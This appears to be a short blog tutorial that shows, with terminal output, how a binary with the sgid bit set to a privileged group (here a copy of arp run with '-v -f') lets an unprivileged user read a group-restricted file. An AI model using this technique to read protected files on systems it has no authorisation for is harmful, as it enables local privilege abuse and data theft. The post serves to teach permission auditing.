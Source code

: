 Vulnerabilities when incorrectly using the suid bit is quite common, but suid has a less famous cousin: sgid. 

Q: Can we exploit inproper use of the sgid bit?
A: Yes indeed.

In the example below only user and group have read access to the file secretfile2:

```
nisse@bettan:~$ ls -l secretfile2
-rw-r----- 1 root emptygroup 57 Feb 10 13:54 secretfile2
nisse@bettan:~$
```

This is the content of the file:

```
root@bettan:/home/nisse# cat secretfile2
This is the content of the file /home/nisse/secretfile2

root@bettan:/home/nisse#
```

I am currently logged in as nisse, who is not a member of the emptygroup group:

```
nisse@bettan:~$ groups
nisse
nisse@bettan:~$
```

Actually, the group emptygroup has no members at all:

```
nisse@bettan:~$ cat /etc/group | grep emptygroup
emptygroup:x:1097:
nisse@bettan:~$
```

Nisse cannot read the content of secretfile2 since he is "other" in relation to that file:

```
nisse@bettan:~$ cat secretfile2
cat: secretfile2: Permission denied
nisse@bettan:~$
```

In the same directory I have placed a copy of the arp binary which can be used to read files using "-v -f filename". Note that this is not a security flaw but a feature of arp! The flaw comes here:

```
nisse@bettan:~$ ls -l arp2
-rwxr-sr-x 1 root emptygroup 70960 Feb 10 13:53 arp2
nisse@bettan:~$
```

Note that the file has the sgid-bit set (s on the group-execute position) and that the group membership of the file is emptygroup. This means that when the binary is executed, it will run as if the executing user was member of the emptygroup group.

And since all members of emptygroup (but not others!) have read access to the the secret2file, anyone executing this arp binary (note that others have execute permissions, so that can be performed by anyone on the system) can use arp to read the secretfile2 file:

```
nisse@bettan:~$ ./arp2 -v -f secretfile2
This is the content of the file /home/nisse/secretfile2
This: Host name lookup failure
arp: cannot set entry on line 1 of etherfile secretfile2 !
nisse@bettan:~$
```



So yes, the sgid bit can be exploited the same way as suid. Remember that sgid  relatess to the group membership of the file the same way as the suid bit relates to the file owner.
